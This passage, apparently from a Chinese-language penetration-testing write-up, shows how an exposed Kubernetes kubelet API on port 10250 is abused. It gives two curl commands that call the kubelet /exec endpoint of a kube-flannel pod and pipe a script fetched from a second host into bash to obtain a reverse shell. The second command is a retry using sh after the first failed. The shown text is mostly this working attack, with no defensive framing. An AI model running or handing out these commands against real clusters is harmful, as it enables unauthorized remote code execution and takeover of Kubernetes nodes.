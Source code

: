 [![](assets/1699842580-aaf067896e9f9f0c2b4d4df4db743583.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171228-9e83b734-7316-1.png)  
之后进行反弹shell操作：

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/bash&command=-c&command=curl+192.168.17.161:80+|+bash&input=1&output=1&tty=1"
```

[![](assets/1699842580-75e897bb65a3460b621695ca74a10e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171249-ab27145e-7316-1.png)  
发现并不行，之后尝试下面的语句(主要换了sh)

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/sh&command=-c&command=curl+192.168.17.161+|+bash&input=1&output=1&tty=1"
```

